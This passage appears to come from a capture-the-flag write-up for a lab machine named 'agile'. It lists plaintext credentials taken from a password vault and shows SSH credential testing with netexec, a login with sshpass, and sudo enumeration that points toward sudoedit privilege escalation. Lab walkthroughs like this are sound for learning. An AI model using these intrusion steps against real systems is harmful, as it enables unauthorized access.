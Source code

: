 ![alt text](images/chromium_inspect_superpwd_vault.png)

This seems to be a good one - `edwards` - `d07867c6267dcb5df0af`

```bash
$ netexec ssh $TARGET -u edwards -p d07867c6267dcb5df0af
SSH         10.10.11.203    22     10.10.11.203     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.203    22     10.10.11.203     [+] edwards:d07867c6267dcb5df0af  (non root) Linux - Shell access!
```

| Username | Password | Target |
| -- | -- | -- |
| superpassuser | dSA6l7q*yIVs$39Ml6ywvgK | Mysql |
| corum | 5db7caa1d13cc37c9fc2 | ssh |
| edwards | d07867c6267dcb5df0af | ssh |

```bash
$ sshpass -p 'd07867c6267dcb5df0af' ssh edwards@$TARGET
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)
...
Last login: Thu Mar  2 10:28:51 2023 from 10.10.14.23
edwards@agile:~$ id
uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)
```

It seems we have a few extra permissions with `sudoedit` here.

```bash
edwards@agile:~$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

